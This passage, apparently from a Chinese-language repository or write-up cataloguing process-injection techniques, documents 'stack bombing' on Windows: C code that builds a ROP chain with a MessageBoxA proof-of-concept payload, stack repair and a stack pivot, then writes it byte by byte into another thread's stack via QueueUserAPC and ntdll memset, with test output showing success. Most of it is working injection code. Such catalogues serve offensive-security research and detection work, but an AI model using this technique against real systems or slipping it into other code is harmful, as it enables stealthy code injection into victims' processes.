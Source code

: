 ✅ 所有必需的 gadgets 都在系统 DLL 中找到。

### ROP Chain 构建

**rop_chain.c** (techniques/31-stack-bombing/src/rop_chain.c:170)

```c
// POC Payload: 调用 MessageBoxA
FunctionCall((DWORD64)MessageBoxA, 0, 0, 0, 0);

// 栈修复：恢复原始栈
SetRcx(runtime_parameters->orig_tos);
ROP_chain[rop_pos++] = GADGET_poprdx;
saved_return_address = rop_pos++;
SetR8(8);
SetR9(DONT_CARE);
SetApi((DWORD64)GetProcAddress(ntdll, "memmove"));

// Stack Pivot：切换回原始栈
ROP_chain[rop_pos++] = GADGET_pivot;
ROP_chain[rop_pos++] = runtime_parameters->orig_tos;
```

**ROP Chain 结构**：
```
[0-21]  : MessageBoxA(0, 0, 0, 0) 调用 + shadow space
[22-36] : memmove(orig_stack, saved_return, 8) 恢复原始返回地址
[37-42] : Shadow space
[43]    : GADGET_pivot (pop rsp; ret)
[44]    : 原始 RSP 地址
[45]    : 占位符
```

### NtQueueApcThread 栈写入

**set_remote_memory.c** (techniques/31-stack-bombing/src/set_remote_memory.c:51)

```c
// 逐字节写入 ROP chain
for (int i = 0; i < (params->rop_pos * sizeof(DWORD64)); i++) {
    QueueUserAPC(
        (PAPCFUNC)GetProcAddress(GetModuleHandleA("ntdll"), "memset"),
        hThread,
        (ULONG_PTR)(params->tos + i),               // 目标地址
        (ULONG_PTR)(*(((BYTE*)ROP_chain) + i)),     // 写入的字节
        (ULONG_PTR)1                                 // 写入 1 个字节
    );
}
```

**测试输出**：
```
[*] Writing ROP chain to stack using NtQueueApcThread...
    Original RSP: 0xc0a2eff568
    New stack:    0xc0a2efd568
    ROP entries:  46
[+] Stack written successfully
```
